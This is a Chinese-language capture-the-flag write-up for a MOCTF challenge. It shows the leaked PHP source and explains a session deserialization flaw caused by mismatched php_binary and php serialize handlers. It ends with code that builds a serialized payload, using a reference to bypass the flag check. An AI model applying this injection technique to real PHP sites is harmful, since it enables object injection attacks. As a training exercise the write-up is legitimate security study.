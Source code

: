 源码放到git里泄露给大家了
index.php

```
<?php
    ini_set('session.serialize_handler', 'php_binary');
    session_start();

    if(isset($_POST['username']) && isset($_POST['password'])){
        $username = $_POST['username'];
        $password = $_POST['password'];
        $_SESSION["username"] = $username;
        header("Location:./index.php");
    }
    else if(isset($_SESSION["username"])){
        echo '<h1>hello '.$_SESSION["username"].'</h1>';
    }
    else ...
```



flag.php

```
<?php
session_start();
class MOCTF{
    public $flag;
    public $name;
    function __destruct(){
        $this->flag = "moctf{xxxxxxxxxxxxxxxx}";
        if($this->flag == $this->name){
            echo "Wow,this is flag:".$this->flag;
        }
    }
}
```



看源码就可以知道这道题考查的是session反序列漏洞了
在index.php中php的序列化handler是’php_binary’，而flag.php里没有设置，就是默认的’php’

```
ini_set('session.serialize_handler', 'php_binary');
```



参考https://blog.spoock.com/2016/10/16/php-serialize-problem/
index.php中的`$_session['username']`可控，我们就能构造payload到session，
然后访问flag.php页面就能触发反序列化执行`__destruct`了，
这里还有个考点是`$this->flag == $this->name`，通过引用的方式绕过。
构造payload

```
$a = new MOCTF();
$a->name = &$a->flag;
echo '|'.serialize($a);
```
